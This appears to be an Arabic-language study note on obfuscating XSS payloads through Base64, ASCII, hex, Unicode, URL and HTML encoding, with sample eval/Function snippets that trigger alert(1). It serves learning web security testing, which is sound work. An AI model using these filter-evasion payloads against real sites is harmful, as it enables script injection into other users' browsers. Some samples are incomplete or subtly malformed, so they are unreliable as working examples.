 { #XSS_ecoded_payload }
# شرح جميع المحاولات الممكنة لل Obfuscated Payloads

## أ. تقسيم الكلمات



## ب. التشفير ==>(  Base 64 / Html Encode / Url Encode / utf-8 / unicode  /ASCII    )
#### الشرح :
![[2025-05-27 01-48-05.mkv]]


#### المواقع اللي الشرح:

https://checkserp.com/encode/urlencode/

#### شكل البايلود لكل تشفير :
##### -  Base 64
```javascript
atob('YWxlcnQoMSk=')
```


##### - ASCII
```javascript
<script>
eval(String.fromCharCode(97,108,101,114,116,40,49,41))  // alert(1)
</script>
او 

&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;

```



 #### - utf-8
```javascript

<script> 
eval("\x3Cscript\x3Ealert(1)\x3C/script\x3E")
</script>

أو
<script>
Function("\x3Cscript\x3Ealert(1)\x3C/script\x3E")
</script>

```


##### - Unicode Payload
```javascript

<script> 
eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')
</script>

أو
<script>
Function('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')
</script>

"\u003C\u0073\u0063\u0072\u0069\u0070\u0074\u003E\u0061\u006C\u0065\u0072" 
   document.body.innerHTMLتستخدم الشكل ده  لو لقيت  كده في الكود الصفحه
    
```

#### - Url Encode

```javascript
 encoding   إلخ / طالما المتصفح أو السيرفر بيفك الـ `href`, `src`, `action`, `onclick`  حطه زي م هو  داخل 
  
<script> 
eval("alert('XSS')")
</script>

أو
<script>
encodeURIComponent("<script>alert('XSS')</script>")
</script>
  
```

##### -  Html Encode
```javascript
انت بتحطه بشكله لو لقيت في الصفحه الشكل ده 
 
 document.body.innerHTML 
```
